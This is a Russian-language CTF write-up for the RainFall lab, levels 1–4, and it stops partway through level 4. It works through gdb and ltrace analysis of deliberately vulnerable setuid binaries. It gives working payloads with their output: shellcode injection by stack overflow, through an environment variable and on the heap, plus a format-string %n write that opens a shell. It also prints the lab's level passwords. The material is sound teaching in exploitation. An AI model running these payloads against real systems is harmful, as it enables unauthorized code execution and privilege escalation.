`(python -c 'print "A"*76 + "\x40\xf6\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"'; cat) | ./level1 ` \
и оболочка не открывается, потому что я не попадаю на шелл код. Это связано с тем, что при запуске в дебаггере и без него адреса немного отличаются (разные переменные окружения, которые кладутся перед кодом программы).

Подбираю правильный адрес (подошел на 16*3 байт больше), чтобы попасть на NOP-срез и проскользить до shellcode:
```sh
(python -c 'print "A"*76 + "\x70\xf6\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"'; cat) | ./level1 
        whoami
        level2
        cat /home/user/level2/.pass
        53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```
Уровень пройден!
```sh
su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<a name="level1_shellcode_in_env"></a> 
## _3._ level1: shellcode в env

В [level1: shellcode на стеке](#level1_shellcode_on_stack) я рассматривала, как подобрать подходящий [shellcode](#shellcode). Воспользуюсь здесь тем же кодом.

Создаю переменную окружения:
```sh
export SHELLCODE=$'\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1'
```
Компилирую и запускаю файл (env_addr.c) в папке /tmp/:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
        printf("%p\n", getenv("SHELLCODE"));
        return 0;
}
```
```sh
gcc /tmp/env_addr.c -o /tmp/env_addr
level2@RainFall:~$ /tmp/env_addr
# ||
# \/
# 0xbffff868
#     |_____________________________
#                                  ||
#                                 \  /
#                                  \/
#                             0xbffff868
(python -c 'print "A"*76 + "\x68\xf8\xff\xbf" + "\x90" * 40 + "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1"'; echo "cat /home/user/level2/.pass") | ./level1 
# ||
# \/
# 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
Уровень пройден!
```sh
su level2
# Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>
#include "stdlib.h"
#include "unistd.h"
#include "stdio.h"
#include "string.h"
#include "sys/types.h"
#include "sys/wait.h"
<br>
void  run(void) {
        fprintf(stdout, "Good... Wait what?\n");
        system("/bin/sh");
}<br>
int   main(int argc, char **argv) {
        char buffer[64];
        gets(buffer);
}
</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level1.c -o level1
</details> 

#
###### [вернуться к содержанию](#content)
<a name="lvl2"></a> 
# level2

<!-- <pre>
level0@RainFall:~$ su level2
<font color=grey>Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level2/level2</font>
</pre> -->


Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
```
---
</details>
<details><summary> getfacl level2 </summary>

```sh
getfacl level2 
# ||
# \/
# # file: level2
# # owner: level3
# # group: users
# # flags: ss-
# user::rwx
# user:level2:r-x
# user:level3:r-x
# group::---
# mask::r-x
# other::---
```
---

</details>
<details><summary> ./level2 </summary>

```sh
./level2 
# ||
# \/
# 
# 
./level2 
# ||
# \/
# sdgsdg
# sdgsdg
```
---

</details>
<details><summary> ltrace ./level2 </summary>

```sh
ltrace ./level2 
# ||
# \/
# __libc_start_main(0x804853f, 1, 0xbffff6f4, 0x8048550, 0x80485c0 <unfinished ...>
# fflush(0xb7fd1a20)                                                             = 0
# gets(0xbffff5fc, 0, 0, 0xb7e5ec73, 0x80482b5 12345678Hello
# )                                  = 0xbffff5fc
# puts(" 12345678Hello" 12345678Hello
# )                                                         = 15
# strdup(" 12345678Hello")                                                       = 0x0804a008
# +++ exited (status 8) +++
```
---

</details>
<details><summary> gdb level2 -> disassemble на список функций </summary>

```sh
(gdb) disassemble Tab
# ||
# \/
# main 
# p 
# printf 
# puts 
# fflush 
# strdup 
# gets
# ...
```
---
</details>
<br>

Из вывода `ltrace` видно, что используются: \
`gets()` - можно переполнить буфер,         \
`strdup()` - в программе выделяется куча (heap), в ней же как и на стеке можно расположить исполняемый код.

<details><summary>main вызывает только p() </summary>

```sh

(gdb) disassemble main
# ||
# \/
# Dump of assembler code for function main:
# 1. создается стековый фрейм (stack frame) или кадр стека:
#    0x0804853f <+0>:     push   %ebp             # сохраняет в стеке содержимое регистра EBP
#    0x08048540 <+1>:     mov    %esp,%ebp        # присваивает регистру EBP значение ESP
#    0x08048542 <+3>:     and    $0xfffffff0,%esp # выравнивание стека по 16-байтовой границе, то есть каждая созданная переменная и выделенная в функции main область памяти будет выравниваться до размера, кратного 16 байтам
# 
# 2. Вызов p()
#    0x08048545 <+6>:     call   0x80484d4 <p>    # вызов p()
#
# 3. Завершение и возвращение из main()
#    0x0804854a <+11>:    leave  
#    0x0804854b <+12>:    ret    
# End of assembler dump.
```
</details>

<details><summary>анализ disassemble p() в развороте. </summary>

```sh
(gdb) disassemble p
# ||
# \/
# Dump of assembler code for function p:
# 1. создается стековый фрейм (stack frame) или кадр стека:
0x080484d4 <+0>:     push   %ebp           # сохраняет в стеке содержимое регистра EBP
0x080484d5 <+1>:     mov    %esp,%ebp      # присваивает регистру EBP значение ESP
0x080484d7 <+3>:     sub    $0x68,%esp     # выделена память под локальные переменные 68(hex) = 104(dec) байт
#
# 2. Далее:
0x080484da <+6>:     mov    0x8049860,%eax # x 0x8049860 -> <stdout@@GLIBC_2.0>:  помещен в eax
0x080484df <+11>:    mov    %eax,(%esp)    # stdout передан в качестве аргумента fflush()
0x080484e2 <+14>:    call   0x80483b0 <fflush@plt> # вызов fflush(stdout)
#
# 3. Подготовка и вызов gets():  
0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax       # адрес буфера помещен в eax
0x080484ea <+22>:    mov    %eax,(%esp)            # буфер передан в gets()
0x080484ed <+25>:    call   0x80483c0 <gets@plt>   # вызов gets(буфер)
#
# 4. Защита от переполнения буфера на случай перезаписи eip регистра (адреса возврата) на адрес на стеке и использования вредоносного кода в стеке (shell-кода, адреса другой функции для взлома) и в переменных окружения (адрес стека):
0x080484f2 <+30>:    mov    0x4(%ebp),%eax # x/i $eax -> 0x804854a <main+11>: leave
                                           # адрес возврата помещается в eax
0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
0x080484fb <+39>:    and    $0xb0000000,%eax # побитовое И
0x08048500 <+44>:    cmp    $0xb0000000,%eax # сравнение (начинается ли адрес с 0xb.......)
0x08048505 <+49>:    jne    0x8048527 <p+83>
#
# Если был перезаписан EIP, программа завершится: 
      0x08048507 <+51>:    mov    $0x8048620,%eax
      0x0804850c <+56>:    mov    -0xc(%ebp),%edx
      0x0804850f <+59>:    mov    %edx,0x4(%esp)
      0x08048513 <+63>:    mov    %eax,(%esp)
      0x08048516 <+66>:    call   0x80483a0 <printf@plt>
      0x0804851b <+71>:    movl   $0x1,(%esp)
      0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
#
# Если не было перезаписи EIP: 
# 6. Подготовка и вызов puts():
0x08048527 <+83>:    lea    -0x4c(%ebp),%eax       # адрес буфера положен в eax
0x0804852a <+86>:    mov    %eax,(%esp)            # буфер передан в качестве аргумента gets()
0x0804852d <+89>:    call   0x80483f0 <puts@plt>   # вызов gets(буфер)
#
# 7. Подготовка и вызов strdup():
0x08048532 <+94>:    lea    -0x4c(%ebp),%eax       # адрес того же буфера, что и в gets() передавался, положен в eax
0x08048535 <+97>:    mov    %eax,(%esp)            # буфер передан в качестве аргумента strdup()
0x08048538 <+100>:   call   0x80483e0 <strdup@plt> # вызов strdup(буфер)
# 
# 8. Завершение и возвращение из p()
0x0804853d <+105>:   leave  
0x0804853e <+106>:   ret    
# End of assembler dump.
```
</details>

Из пункта 4 анализ disassemble p() видно: \
`0x080484ed <+25>:    call   0x80483c0 <gets@plt>` p содержит gets(), в то же время содержит защиту от переполнения буфера на случай перезаписи eip регистра (адреса возврата из фукнции) и использования вредоносного кода в стеке (shell-кода, адреса другой функции для взлома) и в переменных окружения.

<details> 
  <summary> В развороте, как узнать адрес стека и почему именно 0xb0000000 </summary>

`gdb level2`      <br>
`b *0x08048486`   <br>
`x/64wx $esp-20`  <br>
эти три команды в дебагере выведут значения в стеке (esp регистр - Stack Pointer register) по конкретным адресам - все адреса на 0xb... начинаются, значит здесь нам не позволят вредоносный код в стеке выполнить.
</details>
<br>

Стек и env для вредоносного кода использовать не получится, зато можно использовать кучу: \
из пункта 7 `анализ disassemble p()` видно вызов `strdup()` с выделением памяти на куче. И не происходит освобождения памяти, возвращенной функцией `strdup()`, то есть в main вернется указатель на кучу, где и будет положен shellcode: \
`0x08048538 <+100>:   call   0x80483e0 <strdup@plt> ` \
`0x0804853d <+105>:   leave                         ` \
`0x0804853e <+106>:   ret                           `

<details> 
  <summary>Посмотреть адрес, возвращенный strdup() можно 3 способами (в развороте).</summary>

1. 
```sh
ltrace ./level2 
# ||
# \/
# __libc_start_main(0x804853f, 1, 0xbffff6f4, 0x8048550, 0x80485c0 <unfinished ...>
# fflush(0xb7fd1a20)                                                             = 0
# gets(0xbffff5fc, 0, 0, 0xb7e5ec73, 0x80482b5 12345678Hello
# )                                  = 0xbffff5fc
# puts(" 12345678Hello" 12345678Hello
# )                                                         = 15
# strdup(" 12345678Hello")                                                       = 0x0804a008
```
2. 
```sh
(gdb) disassemble  p
# ||
# \/
# Dump of assembler code for function p:
#    0x080484d4 <+0>:     push   %ebp
# ...
#    0x08048535 <+97>:    mov    %eax,(%esp)
#    0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
#    0x0804853d <+105>:   leave  
#    0x0804853e <+106>:   ret    
# End of assembler dump.
(gdb) b *0x0804853d
(gdb) r
(gdb) info registers
# ||
# \/
# eax            0x804a008        134520840
# ...
# ...

```

3.
```sh
(gdb) disassemble main
# ||
# \/
# Dump of assembler code for function main:
#    0x0804853f <+0>:     push   %ebp
#    0x08048540 <+1>:     mov    %esp,%ebp
#    0x08048542 <+3>:     and    $0xfffffff0,%esp
#    0x08048545 <+6>:     call   0x80484d4 <p>
#    0x0804854a <+11>:    leave  
#    0x0804854b <+12>:    ret    
# End of assembler dump.
(gdb) b *0x0804854a
(gdb) r
(gdb) info registers
# ||
# \/
# eax            0x804a008        134520840
...
...


```

___

</details> 

Адрес кучи `0x804a008` .

Узнаю смещение адреса возврата функции, [воспользовавшись сайтом](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) . Добиваю буфер до нужного размера переполнения (shellcode + NOP-срезы) + адрес кучи.


Нужное смещение 80 байт.

В этом задании я буду использовать тот же shellcode, что и на предыдущем уровне ([shellcode из level1](#shellcode)).

```sh
# http://shell-storm.org/shellcode/files/shellcode-237.html
(echo $(python -c 'print "\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1" + "\x90" * 48 + "\x08\xa0\x04\x08"'); cat) | ./level2
# ||
# \/
# h̀hh��hj
#        X1�Rh//shh/bin��RS���ᐐ�����������������������������������������
whoami
# ||
# \/
# level3
cat /home/user/level3/.pass
# ||
# \/
# 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
Уровень пройден!
```sh
su level3
# Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "stdio.h"
#include "string.h"
<br>
char *p(void) {
        char            buffer[64];
        unsigned int    ret;

        printf(""); fflush(stdout);
        gets(buffer);
        ret = __builtin_return_address(0);
        if((ret & 0xb0000000) == 0xb0000000) {
                printf("(%p)\n", ret);
                _exit(1);
        }
        printf("%s\n", buffer);
        return strdup(buffer);
}
<br>
int  main(int argc, char **argv) {
        p();
}
</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level2.c -o level2
</details> 


#
###### [вернуться к содержанию](#content)
<a name="lvl3"></a> 
# level3

<!-- <pre>
level0@RainFall:~$ su level3
<font color=grey>Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level3/level3</font>
</pre> -->


<!-- <details><summary>В развороте вывод в терминал: <br> ls -la , <br> ./level3 , <br> ./level3 12345, <br> getfacl level3 , <br> ltrace ./level3, <br> gdb level3 -> disassemble на список функций. </summary> -->

Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
ls -la
# ||
# \/
# ...
# -rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```
---
</details>
<details><summary> getfacl level3 </summary>

```sh
getfacl level3 
# ||
# \/
# # file: level3
# # owner: level4
# # group: users
# # flags: ss-
# user::rwx
# user:level3:r-x
# user:level4:r-x
# group::---
# mask::r-x
# other::---

```
---

</details>
<details><summary> ./level3 с аргументами и без аргументов </summary>

```sh
./level3 
# ||
# \/
# 

./level3 12345
# ||
# \/
# 

./level3 
# 12345
# ||
# \/
# 12345
```
---

</details>
<details><summary> ltrace ./level3 </summary>

```sh
ltrace ./level3 
# 12345
# ||
# \/
# __libc_start_main(0x804851a, 1, 0xbffff6f4, 0x8048530, 0x80485a0 <unfinished ...>
# fgets(12345
# "12345\n", 512, 0xb7fd1ac0)                                    = 0xbffff440
# printf("12345\n"12345
# )                                                    = 6
# +++ exited (status 0) +++

```
---

</details>
<details><summary> gdb level3 -> disassemble на список функций </summary>

```sh
(gdb) disassemble 
# ||
# \/
# ...
# m
# main
# v
# fgets
# printf
# system
# fwrite                     
# ...
```
---
</details>
<br>

`m` - это глобальная переменная <a name="lvl3_m"></a> 
```sh
(gdb) disassemble m
# ||
# \/
# No function contains specified address.

(gdb) x &m
# ||
# \/
# 0x804988c <m>:  0x00000000
```

<details> 
  <summary> Анализ disassemble main в развороте. </summary>

```sh
(gdb) disassemble main
# ||
# \/
# Dump of assembler code for function main:
# 1. создается стековый фрейм (stack frame) или кадр стека
0x0804851a <+0>:     push   %ebp             # сохраняет в стеке содержимое регистра EBP
0x0804851b <+1>:     mov    %esp,%ebp        # присваивает регистру EBP значение ESP
0x0804851d <+3>:     and    $0xfffffff0,%esp # выравнивание стека по 16-байтовой границе, то есть каждая созданная переменная и выделенная в функции main область памяти будет выравниваться до размера, кратного 16 байтам
# 
# 2. Вызов v()
0x08048520 <+6>:     call   0x80484a4 <v>   #  вызов v()
#
# 3. Завершение и возвращение из main()
0x08048525 <+11>:    leave  
0x08048526 <+12>:    ret    
# End of assembler dump.
```
___

</details> 

Из анализа видно, что в `main()` только вызов функции `v()` происходит.

Коротко о disassemble `v()`:

Внутри `v()` вызываются функции: \
`fgets`  \
`printf` \
`system` \
`fwrite` \
и глобальная переменная: \
`m`

`fgets()` защищенная функция, значит с ее помощью не удастся переполнить буфер.

Слабые места: `system()` и `printf()`.

Поиск уязвимости printf() в google.com: \
"printf уязвимость" -> ["Такой тип уязвимости называют атакой на строку форматирования (англ. Format string attack)"](https://ru.wikipedia.org/wiki/Printf).

Таким образом необходимо подать правильные аргументы для `printf()`, чтобы переместиться на `system()`.

<details> 
  <summary> Анализ disassemble v() в развороте: </summary>

___

1. создается стековый фрейм (stack frame) или кадр стека: \
`0x080484a4 <+0>:     push   %ebp` сохраняет в стеке содержимое регистра EBP  \
`0x080484a5 <+1>:     mov    %esp,%ebp` присваивает регистру EBP значение ESP \
`0x080484a7 <+3>:     sub    $0x218,%esp` выделяется 218<sub>16</sub> = 536<sub>10</sub> байт под локальные переменные.
```sh
# в gdb disassemble это выглядит так:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp       x $ebp    -->    0xbffff628:     0xbffff638
                                               esp был 0xbffff628 (in esp 0xbffff638 - start v())
   0x080484a7 <+3>:     sub    $0x218,%esp     после "0x080484a7 <+3>" регистр "esp" стал 628-218 = 0xbffff410
```

2. Подготовка к вызову `char *fgets(char *str, int num, FILE *stream)`: 

`0x080484ad <+9>:     mov    0x8049860,%eax` в качестве `FILE *stream` в `fgets()` передано `0` (`stdin`).
```sh
(gdb) x *0x8049860
# ||
# \/
# 0xb7fd1ac0 <_IO_2_1_stdin_>:    0xfbad2088
```

`0x080484b2 <+14>:    mov    %eax,0x8(%esp)` кладу значение `stdin` в `0x8(%esp)` \
`0x080484b6 <+18>:    movl   $0x200,0x4(%esp)` кладу размер буфера 200<sub>16</sub> = 512<sub>10</sub> байт в `0x4(%esp)` \
`0x080484be <+26>:    lea    -0x208(%ebp),%eax` кладу в регистр `%eax` указатель на буфер в 512<sub>10</sub> байт и два вышеуказанных значения для передачи в `fgets()` \
`0x080484c4 <+32>:    mov    %eax,(%esp)` \
`0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>` вызов функции `fgets()`

```sh
# в gdb disassemble стек выглядит так:    | stack:  
0x080484ad <+9>:  mov  0x8049860,%eax     | x $eax --> 0xb7fd1ac0 <_IO_2_1_stdin_>:  ||
                                          |            0xfbad2088                    \/
                                          |                                      x/64xw $esp
0x080484b2 <+14>: mov  %eax,0x8(%esp)     | 0xbffff410:  0xb7fde612  0xb7ffeff4  0xb7fd1ac0  0xb7ff37d0
                                          | 
                                          |                          x/64xw $esp
0x080484b6 <+18>: movl  $0x200,0x4(%esp)  | 0xbffff410:  0xb7fde612  0x00000200  0xb7fd1ac0  0xb7ff37d0
                                          | 
0x080484be <+26>: lea  -0x208(%ebp),%eax  | x $eax    -->    0xbffff420:  0x00000000
                                          | 
                                          |              x/64xw $esp
0x080484c4 <+32>: mov  %eax,(%esp)        | 0xbffff410:  0xbffff420  0x00000200  0xb7fd1ac0  0xb7ff37d0
                                          |                                                      |
(gdb) x 0xb7ff37d0       <------------------------------------------------------------------------
# ||                                      |
# \/                                      |
# 0xb7ff37d0 <__libc_memalign+16>: 0xb824c381
#                                         |                                                 выравнивание
# Выравнивание до 16 байт:                |                                                  до 16 байт
                                          | 0xbffff410:  0xbffff420  0x00000200  0xb7fd1ac0  0xb7ff37d0

0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>     вызов fgets()
AAAA

возвращает AAAA в eax, а eax был на стеке <+32> в 0xbffff420:     0x41414141
``` 

3. Подготовка к вызову `printf()`:

`0x080484cc <+40>:    lea    -0x208(%ebp),%eax`      x $eax  ebp(628)-208=420  -->    0xbffff420:  0x41414141 \
                                                     буфер передается в качестве аргумента для printf()       \
`0x080484d2 <+46>:    mov    %eax,(%esp)` \
`0x080484d5 <+49>:    call   0x8048390 <printf@plt>` вызов функции `printf()`

4. 0x080484e2 <+62> сравнение `m` со значением 64:

Подготовка для сравнения:

`0x080484da <+54>:    mov    0x804988c,%eax` положили значение глобальной переменной (это 0) в регистр `eax`
```sh
(gdb) x 0x804988c
# ||
# \/
# 0x804988c <m>:  0x00000000
```
`0x080484df <+59>:    cmp    $0x40,%eax` сравниваем `m` и `40`<sub>16</sub>=`64`<sub>10</sub>`
`0x080484e2 <+62>:    jne    0x8048518 ` если `m` не равно `64`, то переходим к `0x08048518 <+116>:   leave` - это завершение функцию `v()`, потом `main()` и выход из программы.

Если же значение совпали, то в дальнейшем будет произведены подготовка (`0x0804850c <+104>`) и вызов `system()` (`0x08048513 <+111>`):

Анализ disassemble v() завершен.
___

</details> 

Уязвимость `printf()`: 
1. Защищенное использование функции: `printf("%s", string);` 
2. [Уязвимое использование функции](https://habr.com/ru/company/pvs-studio/blog/137411/): `printf(string);`

Из пункта 3 "Подготовка к вызову `printf()`" в вышеприведенном анализе disassemble v() видно, что в функцию передан буфер - уязвимое использование функции.

Также есть еще способ, как проверить `printf()` на уязвимость через терминал:
```sh
echo "%p %p %p" | ./level3 
# ||
# \/
# 0x200 0xb7fd1ac0 0xb7ff37d0
```

Значит, при написании программы использовался уязвимый вариант `printf()`.

```sh
echo "AAAA %p %p %p %p %p %p %p %p " | ./level3 
# ||
# \/
#  ____________________________________
# ||                                  ||
# \/                                  \/
# AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 
```
Вместо `AAAA` подставляю адрес глобальной переменной `m` ([выше я его узнала с помощью дебаггера](#lvl3_m)) `\x8c\x98\x04\x08`
```sh
echo -e "\x8c\x98\x04\x08 %p %p %p %p " | ./level3 
# ||
# \/
# �                200 0xb7fd1ac0 0xb7ff37d0 0x804988c 
# \x8c\x98\x04\x08  %p      %p        %p        %p 
#                    1       2         3         4
# наша глобальная переменная m под номером 4. Значит %4$n
```

Здесь я быстро добралась до нужной памяти. Но иногда нужное значение может быть очень далеко. Тогда можно использовать команду:
```sh
echo -e $(python -c 'print "AAAA" + " %p" * 1000') | ./level3 | tr " " "\n" | grep -n 0x41414141
    5  0x41414141

# tr " " "\n"     разделит строку по пробелам и каждое следующее значение стека перенесет на новую строку
# grep -n 0x41414141 отфильтрует нужную строку с указанием ее номера

# Поскольку нумерация начинается с AAAA (это будет первая выведенная строка), а печать стека начинается со второй строки, 
# необходимо вычесть 1         (5-1= 4  0x41414141)
# наша глобальная переменная m под номером 4. Значит %4$n
```
Теперь с [помощью модификатора](https://www.opennet.ru/man.shtml?topic=printf&category=3&russian=0) `%n` перезаписываю значение `m`:
1. Адрес `m` занимает 4 байта
2. Заполню оставшиеся 64-4 = 60 байт любым символом `A`

```sh
#                           адрес m       заполнитель    позиция введенного
#                           4 байта         60 байт      адреса в стеке
(echo $(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'); cat) | ./level3
# ||
# \/
# �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Wait what?!
cat /home/user/level4/.pass
# ||
# \/
# b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

#                         Можно так заполнить: вместо A
# (echo $(python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$n"'); cat) | ./level3

```
Уровень пройден!
```sh
su level4
# Password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "stdio.h"
#include "string.h"

int m;

void  v(void) {

    char b[512];

    fgets(b, sizeof(b), stdin);
    printf(b);
    if(m == 64) {
            fprintf(stdout ,"Wait what?!\n");
            system("/bin/sh");
    }
}

int   main(int argc, char **argv) {

    v();
}

</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="lvl4"></a> 
# level4

<!-- <pre>
level0@RainFall:~$ su level4
<font color=grey>Password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level4/level4</font>
</pre> -->


<!-- <details><summary>В развороте вывод в терминал: <br> ls -la , <br> getfacl level4 , <br> ltrace ./level4, <br> gdb level4 -> disassemble на список функций. </summary> -->

Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
# ...
```
---
</details>
<details><summary> getfacl level4 </summary>

```sh
getfacl level4 
# ||
# \/
# # file: level4
# # owner: level5
# # group: users
# # flags: ss-
# user::rwx
# user:level4:r-x
# user:level5:r-x
# group::---
# mask::r-x
# other::---
```
---

</details>
<details><summary> ./level4 </summary>

```sh
./level4 
# ||
# \/
# 
# 

./level4 AA
# ||
# \/
# 
# 

./level4 
# ||
# \/
# AAAA
# AAAA

```
---

</details>
<details><summary> ltrace ./level4 </summary>

```sh
ltrace ./level4 
# ||
# \/
# __libc_start_main(0x80484a7, 1, 0xbffff6f4, 0x80484c0, 0x8048530 <unfinished ...>
# fgets(AAAA
# "AAAA\n", 512, 0xb7fd1ac0)                                     = 0xbffff440
# printf("AAAA\n"AAAA
# )                                                     = 5
# +++ exited (status 0) +++

```
---

</details>
<details><summary> gdb level4 -> disassemble на список функций </summary>

```sh
gdb level4
(gdb) disassemble #Tab
# ||
# \/
# ...
# m
# main
# n
# fgets
# p
# printf
# system
# ...
```
---
</details>
<br><br>

Коротко:
<pre>
<details> 
  <summary> m - глобальная переменная </summary>

    <pre>
        (gdb) disassemble m
        # ||
        # \/
        # No function contains specified address.
        (gdb) x &m
        # ||
        # \/
        # 0x8049810 <m>:  0x00000000
        # глобальная переменная
    </pre>
___
</details> 


Функции:
<details> <summary>main() </summary>

```sh
        (gdb) disassemble main
        # ||
        # \/
        # Dump of assembler code for function main:
        #
        # 1. создается стековый фрейм (stack frame) или кадр стека: 
            0x080484a7 <+0>:   push %ebp             # сохраняет в стеке содержимое регистра EBP  
            0x080484a8 <+1>:   mov  %esp,%ebp        # присваивает регистру EBP значение ESP 
            0x080484aa <+3>:   and  $0xfffffff0,%esp #  выравнивание стека 
                                                     #  по 16-байтовой границе, 
                                  # то есть каждая созданная переменная и выделенная в 
                                  # функции main область памяти будет выравниваться до 
                                  # размера, кратного 16 байтам.
        # 2.
            0x080484ad <+6>:     call   0x8048457 <n> # вызов функции n()
            
        # 3. Далее завершение и возврат из функции main(): 
            0x080484b2 <+11>:    leave  
            0x080484b3 <+12>:    ret    
```
___
        
</details>      ||
      \/
<details><summary>      n() </summary>

```sh
(gdb) disassemble n
# Dump of assembler code for function n:
#    0x08048457 <+0>:     push   %ebp
#    0x08048458 <+1>:     mov    %esp,%ebp
#    0x0804845a <+3>:     sub    $0x218,%esp
#    0x08048460 <+9>:     mov    0x8049804,%eax
#    0x08048465 <+14>:    mov    %eax,0x8(%esp)
#    0x08048469 <+18>:    movl   $0x200,0x4(%esp)
#    0x08048471 <+26>:    lea    -0x208(%ebp),%eax
#    0x08048477 <+32>:    mov    %eax,(%esp)
#    0x0804847a <+35>:    call   0x8048350 <fgets@plt>
#    0x0804847f <+40>:    lea    -0x208(%ebp),%eax
#    0x08048485 <+46>:    mov    %eax,(%esp)
#    0x08048488 <+49>:    call   0x8048444 <p>
#    0x0804848d <+54>:    mov    0x8049810,%eax
#    0x08048492 <+59>:    cmp    $0x1025544,%eax
#    0x08048497 <+64>:    jne    0x80484a5 <n+78>
#    0x08048499 <+66>:    movl   $0x8048590,(%esp)
#    0x080484a0 <+73>:    call   0x8048360 <system@plt>
#    0x080484a5 <+78>:    leave  
#    0x080484a6 <+79>:    ret    
# End of assembler dump.
```
___

```sh

# 1. создается стековый фрейм (stack frame) или кадр стека: 
0x08048457 <+0>:     push   %ebp           # сохраняет в стеке содержимое регистра EBP  
0x08048458 <+1>:     mov    %esp,%ebp      # присваивает регистру EBP значение ESP 
0x0804845a <+3>:     sub    $0x218,%esp    # выделяется 218 (hex) = 536 (dec) байт под локальные переменные (в том числе как было видно при вызове "ltrace ./level4" 512 байт под буфер для "fgets()" ).

# в памяти это выглядит так:               #   стек:
   0x080484a4 <+0>:     push   %ebp        #
   0x080484a5 <+1>:     mov    %esp,%ebp   #  x $ebp    -->    0xbffff628:     0xbffff638
                                           #  esp был 0xbffff628 (in esp 0xbffff638 - start v())
   0x080484a7 <+3>:     sub    $0x218,%esp #  после "0x080484a7 <+3>" регистр "esp" стал 628-218 = 0xbffff410

# 2. Подготовка к вызову "char *fgets(char *str, int num, FILE *stream)": 

0x08048460 <+9>:     mov    0x8049804,%eax # в качестве "FILE *stream" в "fgets()" передано 0 (stdin).

# (gdb) x 0x8049804
# ||
# \/
# 0x8049804 <stdin@@GLIBC_2.0>:   0x00000000

0x08048465 <+14>:  mov  %eax,0x8(%esp)     # кладу значение stdin в 0x8(%esp) 
0x08048469 <+18>:  movl $0x200,0x4(%esp)   # кладу размер буфера 200 (hex) = 512 (dec) байт в 0x4(%esp) 
0x08048471 <+26>:  lea  -0x208(%ebp),%eax  # кладу в регистр %eax указатель на буфер в 512 (dec) байт и два вышеуказанных значения для передачи в fgets() 
0x08048477 <+32>:  mov  %eax,(%esp)        #
0x0804847a <+35>:  call 0x8048350 <fgets@plt> # вызов функции fgets()


# 3. Подготовка к вызову p() внутри которой printf():
